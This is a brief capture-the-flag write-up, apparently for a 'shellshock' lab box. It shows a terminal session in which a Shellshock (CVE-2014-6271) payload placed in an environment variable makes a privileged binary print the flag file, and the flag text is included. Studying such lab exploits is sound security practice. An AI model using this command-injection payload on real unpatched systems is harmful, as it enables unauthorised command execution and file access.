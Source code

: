 # Lamest box yet 

Just change the env variable smh 

shellshock@ubuntu:~$ export werew="() { :; }; /bin/cat flag;"
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$

Flag :- only if I knew CVE-2014-6271 ten years ago..!!
